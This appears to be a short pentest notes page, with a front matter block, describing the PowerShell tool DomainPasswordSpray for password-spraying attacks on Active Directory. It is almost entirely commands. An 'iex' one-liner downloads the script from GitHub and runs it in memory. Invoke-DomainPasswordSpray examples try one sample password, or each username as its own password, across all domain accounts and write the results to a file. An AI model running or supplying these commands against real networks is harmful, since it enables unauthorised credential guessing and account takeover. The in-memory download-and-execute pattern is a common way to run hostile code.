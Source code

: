 ```yaml
---
title : "DomainPasswordSpray"
# pre : ' '
description : "Powershell script to perform password spray attack in Active Directory."
date : 2021-02-02T10:07:59+01:00
# hidden : true
# draft : true
weight : 80
# tags : ['']
---
```


## Installation

```plain
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/crypt0rr/DomainPasswordSpray/master/DomainPasswordSpray.ps1")
```

## Usage

```plain
Invoke-DomainPasswordSpray -Password Welkom01 -OutFile c:\temp\spray-results.txt
```

It can also be interesting to use the `-UsernameAsPassword` flag.

```plain
Invoke-DomainPasswordSpray -UsernameAsPassword -OutFile c:\temp\spray-results.txt
```

## URL List

- [Github.com - DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
